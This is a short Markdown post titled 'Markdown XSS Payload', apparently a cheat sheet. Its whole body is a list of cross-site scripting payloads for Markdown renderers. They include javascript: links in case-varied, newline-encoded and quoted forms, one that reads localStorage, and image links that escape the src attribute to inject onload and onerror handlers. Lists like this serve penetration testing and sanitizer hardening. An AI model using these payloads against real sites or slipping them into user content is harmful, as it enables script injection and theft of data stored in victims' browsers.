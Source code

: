 ```yaml
---
title: Markdown XSS Payload
date: 2019-03-12 13:43:40
tags: "xss"
---
```


[Basic](javascript:alert('Basic'))


[Local Storage](javascript:alert(JSON.stringify(localStorage)))


[CaseInsensitive](JaVaScRiPt:alert('CaseInsensitive'))

[URL](javascript://www.google.com%0Aalert('URL'))

[In Quotes]('javascript:alert("InQuotes")')

![Escape SRC - onload](https://www.example.com/image.png"onload="alert('ImageOnLoad'))

![Escape SRC - onerror]("onerror="alert('ImageOnError'))